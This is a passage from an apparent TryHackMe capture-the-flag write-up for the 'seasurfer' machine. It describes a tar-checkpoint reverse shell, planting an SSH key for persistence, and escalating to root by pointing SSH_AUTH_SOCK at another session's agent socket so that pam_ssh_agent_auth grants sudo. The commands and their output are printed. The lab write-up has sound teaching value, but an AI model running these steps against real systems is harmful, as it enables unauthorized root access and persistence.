

In essence, the files we created will be passed into the tar command being executed by the background process. The first sets the checkpoints action to execute our reverse shell using sh, and the second calls the checkpoint. Now all that's left is to setup a Netcat listener and wait for it to run.



At this point, I upload my own `id_rsa key` to authorized_keys in Kyle's `/.ssh` directory and login via SSH to escape this crappy one. It's also a good idea to remove those files used to get this shell. This is because the system will attempt to keep spawning reverse shells which end up freezing instead of terminating, in turn bogging down machine performance.

Now we can move onto finding ways to escalate privileges to root user. I check the usual routes of SUID bits set on binaries and crontabs executing scripts but find nothing. Kyle is in the adm group which let's us read the server's logs, however there are no sensitive errors inside of it.

I resort to uploading [LinPEAS](https://github.com/peass-ng/PEASS-ng/releases/) to uncover any special permissions that may be hidden as well as [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) to snoop on background processes. 

Since there was no low hanging fruit, I begin checking for outdated critical services or altered config files. There aren't any glaring vulnerabilities present, so I take some time to enumerate file permissions on almost everything related to Sudo and SSH configuration.

This led me to enumerating PAM configuration files in hopes to exploit authentication at sign on. 



Parsing all files within the `/pam.d` directory shows that Sudo has been configured so that SSH keys are accepted.



I also noticed an SSH agent socket file under `/tmp` earlier when uploading my scripts. 

```
kyle@seasurfer:~$ ls -lhpa /tmp/ssh-I2y4KwPuPD/agent.1059 
srwxrwxr-x 1 kyle kyle 0 Feb 06 19:57 /tmp/ssh-I2y4KwPuPD/agent.1059
```

Doing a bit more digging on `pam_ssh_agent_auth` shows that all we have to do is set the `SSH_AUTH_SOCK` environment variable to that SSH agent and then PAM would allow us to use Sudo.

```
kyle@seasurfer:~$ export SSH_AUTH_SOCK=/tmp/ssh-I2y4KwPuPD/agent.1059

kyle@seasurfer:~$ ssh-add -l
3072 SHA256:boZASmxRncp8AM+gt1toNuZr9jh1dyatwf9DPZYit88 kyle@seasurfer (RSA)

kyle@seasurfer:~$ sudo -l
Matching Defaults entries for kyle on seasurfer:
    env_keep+=SSH_AUTH_SOCK, env_reset, timestamp_timeout=420, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kyle may run the following commands on seasurfer:
    (ALL : ALL) ALL

kyle@seasurfer:~$ sudo su
root@seasurfer:/home/kyle# cat /root/root.txt
THM[REDACTED]
```

Finally, we can use Sudo to switch users to root and grab the last flag at `/root/root.txt`. This box was was a bit difficult, but once I got past enumerating the attack surface, things started to click. I hope this was helpful to anyone following along or stuck and happy hacking!
